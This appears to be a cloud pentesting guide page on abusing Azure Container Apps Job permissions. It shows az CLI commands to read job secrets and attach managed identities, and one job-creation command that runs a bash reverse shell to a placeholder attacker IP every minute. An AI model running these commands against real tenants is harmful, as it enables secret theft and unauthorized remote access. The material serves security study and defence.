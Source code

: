 
### `Microsoft.App/jobs/read`, `Microsoft.App/jobs/listSecrets/action`

If you have these permissions you can list all the secrets (first permission) inside a Job container and then read the valus of the secrets configured.

```bash
az containerapp job secret list --name <job-name> --resource-group <res-group>
az containerapp job secret show --name <job-name> --resource-group <res-group> --secret-name <secret-name>
```

### `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`, `Microsoft.App/jobs/write`

If you have permission to modify a job’s configuration, you can attach a user‑assigned managed identity. This identity might have additional privileges (for example, access to other resources or secrets) that can be abused to escalate privileges inside the container.

```bash
az containerapp job update \
  --name <job-name> \
  --resource-group <res-group> \
  --assign-identity <user-assigned-identity-id>
```

### `Microsoft.App/managedEnvironments/read`, `Microsoft.App/jobs/write`, `Microsoft.App/managedEnvironments/join/action`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

If you can create a new Container Apps Job (or update an existing one) and attach a managed identity, you can design the job to execute a payload that escalates privileges. For example, you could create a new job that not only runs a reverse shell but also uses the managed identity’s credentials to request tokens or access other resources.

```bash
az containerapp job create \
  --name <new-job-name> \
  --resource-group <res-group> \
  --environment <environment-name> \
  --image mcr.microsoft.com/oss/nginx/nginx:1.9.15-alpine \
  --user-assigned <user-assigned-identity-id> \
  --trigger-type Schedule \
  --cron-expression "*/1 * * * *" \
  --replica-timeout 1800 \
  --replica-retry-limit 0 \
  --command "bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1'"
```

> [!TIP]
> This command will throw and error if you don't have the `Microsoft.App/jobs/read` permission also although the Job will be created.
